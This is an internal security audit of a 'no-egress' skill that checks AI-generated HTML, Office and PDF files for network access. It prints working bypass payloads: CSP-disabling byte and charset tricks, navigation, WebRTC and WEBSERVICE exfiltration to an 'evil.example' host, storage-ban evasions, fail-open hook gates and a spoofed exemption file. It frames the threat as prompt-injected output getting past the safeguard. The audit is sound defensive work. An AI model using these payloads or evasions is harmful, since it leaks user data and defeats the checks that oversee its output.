

<!-- AIPM-CONFIDENTIAL-INTERNAL -->

> **CONFIDENTIAL – FOR INTERNAL USE ONLY**
> This document contains confidential and proprietary information of Advanced Integrated Pest Management, Inc., and may contain trade secrets protected under the California Uniform Trade Secrets Act (Cal. Civ. Code § 3426 et seq.). It is intended solely for authorized Advanced Integrated Pest Management, Inc. personnel, who must handle it in accordance with the confidentiality provisions of the Employee Handbook. Any review, use, disclosure, copying or distribution by anyone other than the intended recipients is prohibited. If you received this in error, notify the sender and delete all copies.

# Security audit: `no-egress` skill (aipm-compliance 1.1.0, PR 1)

- **Date:** 2026-11-02
- **Revision audited:** `f756a9a` (branch `feat/no-egress-skill`), compared against `origin/main` (`ce6c989`, 1.0.0)
- **Scope:** `skills/no-egress/{SKILL.md, scripts/check_egress.py, scripts/pin_sri.py}`, `hooks/register.ts`, `plugin.json`, `marketplace.json`, `dist/no-egress.zip`
- **Environment:** macOS 25.6, Python 3.9.6 (`/usr/bin/python3`), 3.11.14, 3.12.12, 3.14.4; headless Chrome 152.0.7977.42 through puppeteer 25.8.0; qpdf 12.4.2 (installed during the audit, tested with and without it)
- **Nothing in the repository was changed** apart from adding this report. The test generators (`gen_html.py`, `gen_docs.py`, `run_chrome.js`) are saved in the shared side-session notes folder under `no-egress-audit-harness/`.

## Summary

The checker and the CSP together stop the obvious cases. A stray `fetch`, XHR, WebSocket, EventSource, beacon, remote image, CSS background, form submit, iframe, object, embed, blob worker or off-list font is blocked by the browser when the verbatim head block is in force. Allowed loads still work: a pinned cdnjs script runs, Google Fonts loads, `data:` images render and a Blob download completes.

The design rests on one assumption: that the checker and the browser agree on what the document says. **That assumption does not hold.** Three independent tricks make the browser ignore the CSP while the checker sees a valid CSP and passes the file (F1 to F3). Several egress channels sit outside the CSP entirely: top-level navigation, `window.open`, meta refresh and WebRTC/STUN. The checker does not look for any of them (F4, F5). The storage ban is enforced only by a literal regex, and the CSP has no storage control (F6). The hook gates fail open when Python is missing or slow (F7). Several hand-off paths bypass both gates (F8).

Verdict: **not ready to rely on as a control.** It works well as a guide for well-meaning generation. It does not hold up against an adversarial document, such as one produced under prompt injection, and that is the case the "even if a stray reference slips through" wording in SKILL.md claims to cover.



## Severity scale

Critical: defeats both the checker and the runtime CSP, giving unrestricted network access. High: real egress or storage that passes the checker, confirmed in a browser, or a gate failure mode that disables enforcement. Medium: a checker gap where the runtime effect depends on a viewer the audit could not drive, or where exploitation needs local control. Low: a gap the CSP already blocks at runtime, a false positive, or hygiene.

## Findings

### F1. Critical: one invalid UTF-8 byte in an attribute name disables the CSP

`check()` reads HTML with `read_text("utf-8", "ignore")`, which silently drops invalid bytes. The browser decodes the same byte as U+FFFD, so the attribute name no longer reads `content`.

```
<meta http-equiv="Content-Security-Policy" con\xFFtent="default-src 'none'; …verbatim…">
<script>new Image().src='https://evil.example/utf8?d=1'; self['fe'+'tch']('https://evil.example/utf8f')</script>
```

- Checker: **passes** on 3.9, 3.11, 3.12 and 3.14 (it sees `content=` and a valid CSP).
- Chrome: no CSP is applied. Both the `fetch` and the image request reached `evil.example`.
- Applies to every on-disk path (SendUserFile, Artifact). It does not apply to the Write `--stdin` path, because the Write tool's content is already valid text.

### F2. Critical: duplicate attributes. The checker keeps the last value, the browser keeps the first

`handle_starttag` builds `a = {k.lower(): v for k, v in attrs}`, so the last duplicate wins. The HTML spec, and therefore every browser, keeps the first.

```
<meta http-equiv="Content-Security-Policy" content="default-src * 'unsafe-inline'" content="default-src 'none'; …verbatim…">
<script src="https://evil.example/x.js" src="https://cdnjs.cloudflare.com/…/lodash.min.js" integrity="sha384-…" crossorigin="anonymous"></script>
```

- Checker: **passes** on all four Python versions.
- Chrome: the permissive first policy applies. `evil.example/x.js` was fetched and executed, and in a second case `` loaded the remote image.
- The same flaw affects every attribute the checker reads: `src`, `href`, `rel`, `integrity`, `http-equiv`, the referrer `content`, and so on.

### F3. Critical: `<meta charset="iso-2022-jp">` hides the CSP from the browser

The charset meta passes the "only `charset`" placement rule. Chrome then decodes `ESC $ B … ESC ( B` as JIS X 0208, which consumes the closing quote of a dummy attribute and the whole `content` attribute. Python, decoding as UTF-8, sees an ordinary attribute list.

```
<meta charset="iso-2022-jp"><meta http-equiv="Content-Security-Policy" x="\x1b$B" content="…verbatim…" y="\x1b(B">
```

- Checker: **passes** (3.9 to 3.14). `check_csp` rejects control characters only inside the CSP value, not in neighbouring attributes.
- Chrome: no CSP was applied, and `fetch('https://evil.example/iso')` was sent.

### F4. High: navigation exfiltration is outside both the checker and the CSP

CSP has no control over top-level navigation, because `navigate-to` was removed from the spec. `BANNED_JS` does not mention `location`, `open`, `click` or `refresh`. The meta-refresh check only looks for the literal `url=`, but browsers also accept a bare URL after `;` or `,`.

| Input (verbatim head block present) | Checker | Chrome |
|---|---|---|
| `<script>location.href='https://evil.example/nav?d='+encodeURIComponent(document.body.innerText)</script>` | pass | navigated to `/nav?d=secret%204111`, with the page text in the URL |
| `<script>window.open('https://evil.example/open?d=1')</script>` | pass | pop-up opened at the evil URL |
| `<a id=x href="https://evil.example/click?d=1" rel="noopener noreferrer">` + `x.click()` | pass | navigated |
| `<meta http-equiv="refresh" content="0; https://evil.example/refresh?d=1">` | pass | navigated |
| `<meta http-equiv="refresh" content="0,https://evil.example/refresh2">` | pass | navigated |

This is the largest remaining channel even after F1 to F3 are fixed: any inline script can put document data into a URL and navigate there.

### F5. High: WebRTC/STUN sends UDP and DNS traffic past the CSP

```
<script>const pc=new RTCPeerConnection({iceServers:[{urls:'stun:secret-4111.rtc.evil.example:3478'}]});
pc.createDataChannel('d');pc.createOffer().then(o=>pc.setLocalDescription(o))</script>
```

- Checker: pass. `RTCPeerConnection` is not in `BANNED_JS`.
- Chrome with the verbatim CSP: 4 STUN packets arrived at a UDP listener when pointed at `127.0.0.1:34780`. With a hostname, Chrome's net-log shows a DNS lookup of `secret-4111.rtc.evil.example`, so data leaves in the DNS query itself. `connect-src 'none'` does not govern WebRTC in Chrome.

### F6. High: the storage ban is regex-only and trivially bypassed

The CSP cannot stop storage, so `BANNED_JS` is the only control. Each of the following passed the checker on every Python version and wrote to `localStorage` in Chrome:

| Input | Why the checker misses it |
|---|---|
| `window['local'+'Storage'].setItem('k','v')` (also `self['indexed'+'DB']`) | string concatenation |
| `<svg><script>&#108;ocalStorage.setItem('k2','v2')</script></svg>` | html.parser keeps script text raw; SVG script content decodes character references |
| `<![CDATA[><script>localStorage.setItem('k3','v3')</script>]]>` | html.parser treats it as a marked section up to `]]>`; the browser treats it as a bogus comment ending at the first `>` |
| `<!-- a --!><script>localStorage.setItem('k4','v4')</script> -->` | passes on **Python 3.9 only**; 3.11 and later end the comment at `--!>` like browsers (see F12) |

Chrome also gives every `file://` page **one shared storage origin**. Keys written by one test file were readable in every file opened afterwards. A stored value therefore leaks to any other local HTML file the reader opens, not only to the file that wrote it.

### F7. High: hook gates fail open (missing `python3`, timeout)

The engine's own API reference (the `claude-code.d.ts` shipped with this build) says:

- `$.process.run` "Rejects when the command cannot start or is still running" at the timeout (30 s by default).
- At every event, "a hook that fails (throws, overruns its budget …) is skipped … So a guard fails open unless its registration carries a `.catch` … that refuses in its place"; for `tool.call` specifically: "A guard that fails is skipped and the tool runs".

`register.ts` awaits `$.process.run` without a `try` and registers no `.catch`. If `python3` is absent, or a check runs past 30 s (a 23 MB HTML file took 7 s on 3.9; a large PDF through qpdf has no internal timeout either), the Write, SendUserFile and Artifact calls all proceed unchecked. The legend gate shares this behaviour, which already existed in 1.0.0.

The opposite case is handled correctly: a checker that *crashes* exits 1 with no `EGRESS:` lines, and the hook denies with "check_egress.py failed (exit 1)".

*Verified from documentation only; I did not load a modified mod to observe a skipped hook.*

### F8. High: hand-off paths that bypass both gates

| Path | Why ungated |
|---|---|
| `Artifact` with `asset: true` or `file_paths` (scripts, stylesheets, PDFs, images) | `a.asset ? next(e)` skips it; `file_paths` is never read |
| `Artifact` `files` map (supporting files published beside the page, such as `page2.html` or `app.js`) | only `file_path` is gated |
| Any extension outside `DELIVERABLE`/`EGRESS_FILES`: `.svg`, `.xhtml`, `.mhtml`, `.xltx`, `.xltm`, `.dotm`, `.potm`, `.ppsx`, `.ppsm`, `.xlsb`, `.rtf`, `.odt`, `.doc`, `.xls`, `.ppt`, `.zip` | the hook filters by extension; `check()` returns `[]` (exit 0) for unknown extensions |
| A file written with Bash, or edited with Edit or NotebookEdit after a passing Write | only `Write` is gated at creation; the hand-off gate fires only when SendUserFile or Artifact is used |
| A path given to the reader in chat, or uploaded through an MCP connector or `gh` | no gate at all |

Confirmed: a standalone `.svg` containing `<script>fetch(…)</script>` returns exit 0 from the checker, and in Chrome the fetch reached `evil.example` (the file has no CSP).

### F9. Medium: the CSP allows whole CDN hosts, so unpinned third-party code can run

`script-src https://cdn.jsdelivr.net https://unpkg.com https://cdnjs.cloudflare.com` allows any path on those hosts, including any npm package, `/gh/<anyone>/<repo>@<branch>` on jsDelivr, and `@latest`. Integrity hashes are checked only on static tags. Confirmed in Chrome:

- `document.createElement('script')` with an unpinned jsDelivr URL: fetched and executed (checker: pass).
- `<script type="module">import "https://cdn.jsdelivr.net/npm/lodash-es@4.17.21/lodash.js"</script>`: fetched (checker: pass).
- `<script src="https://cdn.jsdelivr.net/npm/is-odd@3.0.1/index.js">` with no `integrity` at all executes at runtime, because SRI is a checker rule and not a browser rule.

The checker does not enforce two rules that SKILL.md states: "jsDelivr (npm only)" and "Version must be pinned". `<script src="https://cdn.jsdelivr.net/gh/someone/repo@main/x.js" integrity="sha384-AAAA…" crossorigin="use-credentials">` passes, and so does `https://unpkg.com/lodash@latest/…`. Combined with F4 or F5, remote code that never appears in the file can exfiltrate data.

### F10. Medium: OOXML gaps (checker verified; Office behaviour not driven)

All of the following **pass** the checker. Positive controls (an external image relationship and a plain `w:instrText INCLUDEPICTURE`) correctly fail.

| Case | Gap |
|---|---|
| `<w:fldSimple w:instr=" INCLUDEPICTURE &quot;https://evil.example/a.png&quot; \d ">` | only `w:instrText` is scanned |
| `INCLUDE` and `PICTURE …` in two consecutive `w:instrText` runs | each run is matched separately; Word concatenates them |
| `INCLUDEPI&#67;TURE` | the regex runs on raw XML, without decoding character references |
| `word/webextensions/…`, `ppt/webextensions/…` | `OOXML_BAD_PARTS` lists only `xl/webextensions/` |
| `word/activeX/activeX1.bin` (for example a Shell.Explorer control with a URL) | ActiveX parts are not checked |
| `.docm` with the VBA part renamed `word/macros.bin` and a `vbaProject` relationship | the match is on the part *name* `vbaProject.bin`, not the relationship type or content type; the `.docm` extension itself is not rejected |
| `word/_rels/document.xml.RELS`, `XL/Connections.xml` | part-name matching is case-sensitive; OPC part names are case-insensitive |
| `<f>WEBSERVICE("https://evil.example/?d="&amp;ENCODEURL(B1))</f>`, `_xlfn.IMAGE("https://…")` | formulas are not scanned |
| `.xltm` containing `xl/vbaProject.bin` | extension not handled, so exit 0 |

Low: `check_rels` looks for a DTD with a byte regex, so a UTF-16-encoded `.rels` slips past that guard. A billion-laughs payload then costs about 1.1 GB of memory and 4 s on the system Python 3.9 (expat 2.2.8) before failing closed. Python 3.14's expat refuses it immediately.

### F11. Medium: PDF gaps (checker verified with and without qpdf; viewers not driven)

All pass the checker in both modes:

- `/OpenAction << /S /URI /URI (https://evil.example/open?d=4111) >>` and `/AA << /WC << /S /URI … >> >>`. URI actions are allowed regardless of trigger, so a link that opens itself is accepted.
- `/AcroForm << /XFA 6 0 R >>` with a Flate-compressed XFA packet containing `<script contentType="application/x-javascript">` and `<submit target=…>`. XFA scripts are XML, not PDF names, and are compressed.
- `/S /Rendition` with media `/D << /FS /URL /F (https://…) >>`, and an image XObject with an external stream `/F << /FS /URL … >>`. `/FS /URL` file specifications are not flagged.

The qpdf path works as designed: object streams and owner-only encryption are expanded, and JavaScript hidden in an object stream is caught. Without qpdf, files with `/ObjStm` or `/Encrypt` fail closed, and a user-password PDF fails closed either way.

False positive: qpdf exit code 3 means "succeeded with warnings", but the checker treats it as failure. A PDF with a damaged `startxref` passes without qpdf and fails with it.

### F12. Medium: verdicts depend on the Python version that runs the checker

`html.parser` changed materially between 3.9 and 3.11+ (comment termination, `</script …>` end tags, RCDATA). The same files give different results:

| Case | 3.9 | 3.11 | 3.12 | 3.14 |
|---|---|---|---|---|
| `<!-- --!><script>localStorage…</script> -->` | **pass** | fail | fail | fail |
| `<script>1</script x>` | **pass** | fail | fail | fail |
| `<textarea><script>fetch('x')</script></textarea>` (compliant) | fail | pass | pass | pass |

The hook runs whatever `python3` is first on the host process's PATH. On macOS the system `/usr/bin/python3` is 3.9.6, which a GUI-launched app is likely to resolve (not verified). The claude.ai sandbox's Python version is unknown. The checker also never calls `HTMLParser.close()`, so a construct left unterminated at end of file is never scanned. Chrome does not execute an unterminated `<script>`, and the CSP blocked the unterminated `<style>` case, so this has no runtime impact today.

### F13. Medium: the exemption is a user-writable claim, and its path logic is wrong under `CLAUDE_CONFIG_DIR`

`exempt()` reads `os.environ.get("CLAUDE_CONFIG_DIR", "~/.claude") + ".json"`. That is right for the default case (`~/.claude.json`) by coincidence. With a custom config directory it reads `<dir>.json`, a sibling file of the directory, rather than a file inside it.

- Spoof, demonstrated with a scratch file only: `CLAUDE_CONFIG_DIR=<scratch>/fakecfg` beside a `fakecfg.json` holding the exempt address in upper case. The checker then printed `exempt:` and exited 0 for a PDF containing `/JavaScript`.
- `~/.claude.json` is writable by the user and by the model (through Bash or Edit), with no integrity protection.
- `oauthAccount` records the last OAuth sign-in on the machine profile, not the credential the current session uses. A session authenticated by API key, Bedrock/Vertex or another token on the same profile would still be exempt (not verified).
- A failed read (missing file, or a partial write while Claude Code rewrites the file) means "not exempt". That fails closed, but the exempt user can occasionally see a spurious deny.
- `--exempt-account` with no value raises `IndexError` (exit 1); the hook turns that into a deny.

### F14. Low: checker gaps the CSP already blocks at runtime

Each passes the checker; Chrome blocked each one under the verbatim CSP, either reporting a violation or making no request:

- `srcset` (only the first candidate is checked)
- CSS `image-set("https://…" 1x)`
- `<body background>`
- `<input type=image src>`
- `<button formaction>`
- `<svg><script href>`
- `<svg><image xlink:href>`
- `<a ping>`
- `<iframe src="data:…">`
- `<iframe srcdoc>` (rendered, inheriting the CSP)

The rules in SKILL.md go further than the checker in several places:

- Bare `<iframe>`, `<object>`, `<embed>` and `<base>` tags are not rejected.
- `javascript:` hrefs are not scanned.
- `<area href>` and SVG `xlink:href` links are exempt from the `rel` rule.
- The CSP is not compared verbatim: `frame-src`, `object-src` and `base-uri` are optional, and `img-src https://cdn.jsdelivr.net` is accepted.
- `<script src="https://fonts.googleapis.com/…">` passes the checker.
- `crossorigin` may take any value, including `use-credentials`.
- `http://` URLs on allowed hosts pass the checker. The CSP then blocks them, so the page breaks rather than leaks.

### F15. Low: false positives (compliant files that fail)

- UTF-8 BOM: the BOM is read as text before the CSP, so the file fails "CSP must be first". Reading with `utf-8-sig` avoids this.
- `HTTPS://unpkg.com` in the CSP: browsers match schemes case-insensitively.
- Self-closed SVG elements not in `SVG_LEAF`, such as `<text/>`, `<tspan/>`, `<g/>`, `<filter/>` and `<clipPath/>`. In foreign content the browser honours the self-closing flag.
- qpdf exit 3 (see F11), and `<textarea>` on 3.9 (see F12).

### F16. Low: `pin_sri.py`

Live runs against the real CDNs:

- cdnjs, jsDelivr npm and unpkg each produced a working tag. The tag for `lodash@4.17.21` loaded and executed in Chrome.
- `/gh/` paths, `@latest`, unknown hosts and 404s print `FAIL` with exit code 1.
- With the network unavailable (a refused proxy, or a no-network sandbox), it prints `FAIL … Connection refused` / `nodename nor servname` with exit code 1. It never guesses a hash.

Weaknesses:

- **The cross-check is not independent for cdnjs or jsDelivr.** `api.cdnjs.com` and `data.jsdelivr.com` belong to the same operator as the files they describe. A compromised or mistaken CDN publishes a matching hash, so the check proves transport integrity, not provenance. The unpkg check, which compares against jsDelivr's copy, does cross two operators.
- Any npm package is accepted (`unpkg.com/is-odd@3.0.1` produced a tag). The tool pins the bytes, not the trust.
- `http://cdnjs.cloudflare.com/…` is accepted and an `http://` tag is printed. The checker passes that tag and the CSP then blocks it, so the page breaks.
- The URL is downloaded *before* the host is validated. `file://` paths are read and arbitrary hosts are fetched, then rejected.
- `.css` detection uses the full URL including the query string, so `…/lodash.min.js?v=1.css` is emitted as a `<link rel=stylesheet>`.
- Redirects are followed silently (the `urllib` default). No case was found where this changes the result, because the URL is pinned to a full version and the hash is compared afterwards.

### F17. Low: the distributed skill names the exempt account

SKILL.md, inside `dist/no-egress.zip` and destined for every claude.ai user, states which account the Claude Code guard skips. That discloses a personal work address and advertises an exemption to everyone the skill reaches. It is also meaningless in claude.ai, where no guard exists.

### F18. Info

- `tsconfig.json` extends `./.claude-plugin/types/tsconfig.json`, which is not in the repository, so `register.ts` cannot be type-checked from a clean checkout. The engine writes that file only when it loads the module.
- `EXEMPT_ACCOUNT` (TypeScript) and the comparison in Python must stay in sync by hand, and nothing tests that they do.

## Verdict per numbered item

| # | Question | Verdict |
|---|---|---|
| 1 | Does the checker enforce every policy rule, and do SKILL.md and the checker agree? | **No.** Navigation, WebRTC and storage are effectively unenforced (F4 to F6). "npm only", "version pinned", "no iframe/object/embed/base", "CSP verbatim" and "web extensions" are stated in SKILL.md but not enforced (F9, F10, F14). The checker adds rules SKILL.md does not mention (strict CSP placement, a single CSP, the self-closing rule), which is acceptable. |
| 2 | Bypasses, and compliant files that fail | **Bypasses found in every format.** HTML: 3 that disable the CSP (F1 to F3), 4 egress channels the CSP does not cover (F4, F5) and 4 storage bypasses (F6). OOXML: 9 (F10). PDF: 5 (F11). False positives: F15. |
| 3 | Does the CSP head block work from `file://` in current Chrome? | **Yes, for what it covers.** Allowed: cdnjs script with SRI ran, Google Fonts CSS and font loaded, `data:` image rendered, Blob download saved `x.csv`. Blocked: fetch, XHR, WebSocket, EventSource, sendBeacon, remote `` and CSS image, form submit, iframe/object/embed, off-list font, blob worker. **Not blocked:** navigation, `window.open`, meta refresh, WebRTC, storage, unpinned scripts from the allowed CDNs. |
| 4 | `pin_sri.py` | **Works and fails closed on network errors**, but the "publisher" check is same-operator for 2 of 3 providers and accepts any package, `http://` URLs and pre-validation downloads (F16). |
| 5 | Hooks module | **Wired as written, but fails open** when `python3` is missing or the check exceeds 30 s (F7). Several hand-off paths skip both gates (F8). The stdin path is correct: it passes `--stdin <file_path>` so the extension selects the HTML check. A checker crash correctly denies. The exemption argument is passed correctly. |
| 6 | Exemption via `~/.claude.json` | **Not a reliable identity source.** It is user- and model-writable, mis-resolved under `CLAUDE_CONFIG_DIR` (spoof demonstrated), and reflects the last sign-in rather than the session (F13). |
| 7 | claude.ai zip | **Matches the source byte for byte** (`cmp` of all 3 files). It is stdlib-only, parses under 3.9, and its selftest and checker run in a macOS `sandbox-exec` no-network profile. `pin_sri.py` cannot work without network, and SKILL.md gives no offline path for CDN libraries. The qpdf advice (`brew install`) cannot be followed in that sandbox. The sandbox Python version is unknown (F12). |
| 8 | Anything else | Shared `file://` storage origin (F6). Version-dependent parsing (F12). Exempt-account disclosure (F17). The legend gate fails open the same way (F7, pre-existing). |

## Selftests (run, not relied on)

- `check_egress.py --selftest`: `selftest ok` (Python 3.14.4).
- `pin_sri.py --selftest`: `selftest ok`.
- `check_legend.py --selftest`: `selftest ok`.
- `check_egress.py --selftest` from the zip copy, under a no-network `sandbox-exec` profile with `/usr/bin/python3` 3.9.6: `selftest ok`.

The selftests exercise only the cases the author anticipated. Every bypass in this report passes them unchanged.

## Design observations (opinions, not defects)

- **A regex over JavaScript cannot enforce "no network or storage APIs".** Property access can always be computed. Only browser-enforced controls hold against a hostile document. For storage and navigation no meta-CSP control exists, so the only robust options are (a) disallow inline script entirely (`script-src` without `'unsafe-inline'`, CDN libraries only, and no AI-written logic), or (b) accept that the rule is a generation guideline and stop calling the CSP a guarantee.
- **The checker's job should shift from "find bad things" to "prove the CSP is in force".** It should parse with a spec-compliant HTML5 tokenizer, refuse duplicate attributes, refuse non-UTF-8 charsets and invalid bytes, and then trust the CSP for everything the CSP covers. Most of the regex surface would then be unnecessary.
- **Host-wide CDN allowlisting is weaker than it reads.** Listing full paths, such as `https://cdnjs.cloudflare.com/ajax/libs/xlsx/0.18.5/xlsx.full.min.js`, does narrow a CSP source to one file and would close F9 at runtime.
- **An identity file is not an authorisation boundary.** A per-machine opt-out (an env var or a managed setting the user cannot write) would be more honest than an email comparison, and would not need the account named in a distributed skill.
- **Fail-closed hooks need a `.catch`.** The engine's documentation calls this out explicitly, and it applies to the 1.0.0 legend gate too.
- The PDF and OOXML denylists will always trail the formats. An allowlist (only the part types and PDF action types the generators actually emit) would age better.

## What was and was not verified

**Verified by running:**

- Every checker result above, on Python 3.9.6, 3.11.14, 3.12.12 and 3.14.4 for HTML, and on 3.14 (plus 3.9 for the billion-laughs case) for OOXML and PDF.
- Runtime behaviour of 54 HTML and SVG files in headless Chrome 152 from `file://`, with request interception, a UDP listener and Chrome's net-log.
- PDF checks with qpdf 12.4.2 present and with `PATH=/usr/bin:/bin` (qpdf absent).
- `pin_sri.py` against the live cdnjs, jsDelivr and unpkg services, and with the network refused.
- Zip contents against the source (`cmp`), and the zip copy under a no-network sandbox.
- The exemption path logic and spoof, with a scratch config file only. The real `~/.claude.json` was read, never modified.
- Checker timing on large (23 MB) and pathological HTML (no super-linear blow-up found).

**Not verified:**

- Hook runtime behaviour (fail-open, Artifact and SendUserFile wiring, which `python3` the host resolves). These come from the engine's bundled API reference and from reading `register.ts`; no modified mod was loaded.
- Whether Word, Excel, PowerPoint or Acrobat actually fetch for the OOXML and PDF bypasses (F10, F11). The checker results are verified; viewer behaviour is not.
- DNS prefetch from a JS-inserted `<link rel=dns-prefetch>`: headless Chrome performed no lookup from `file://`, so this was not reproduced.
- Browsers other than Chrome (Safari, Firefox, Edge), and Chrome's behaviour when the file is opened by double-click rather than puppeteer.
- The Python version in the claude.ai sandbox, and how claude.ai Artifacts treat a meta CSP inside their own sandbox.
- Where Claude Code keeps its config under a custom `CLAUDE_CONFIG_DIR`, and whether `oauthAccount` changes with the session's auth method.
- jsDelivr's public per-package statistics as a covert channel (theoretical, not attempted).

---

CONFIDENTIAL – FOR INTERNAL USE ONLY · Advanced Integrated Pest Management, Inc.
